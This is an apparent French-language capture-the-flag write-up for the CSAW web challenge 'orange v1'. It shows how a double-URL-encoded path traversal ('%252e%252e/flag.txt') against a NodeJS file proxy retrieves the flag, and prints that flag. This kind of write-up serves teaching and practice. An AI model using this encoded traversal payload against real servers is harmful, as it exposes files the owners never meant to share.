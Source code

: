 # orange v1 - web - 100 pts

## Désignation


I wrote a little proxy program in NodeJS for my poems folder.

Everyone wants to read flag.txt but I like it too much to share.

http://web.chal.csaw.io:7311/?path=orange.txt


## Solution

On se connecte sur la page qui nous renvoie un simple :

    i love oranges

Le path semble faillible, on essaye donc plusieurs possibilités telle que `http://web.chal.csaw.io:7311/?path=?` , ce qui nous renvoie :

![orange](orange.png)

Les différents liens ne renvoient que du texte .  
On sait que le fichier à afficher est flag.txt donc essaye le double encoding pour afficher le flag `http://web.chal.csaw.io:7311/?path=%252e%252e/flag.txt` :

    flag{thank_you_based_orange_for_this_ctf_challenge}

Flag !
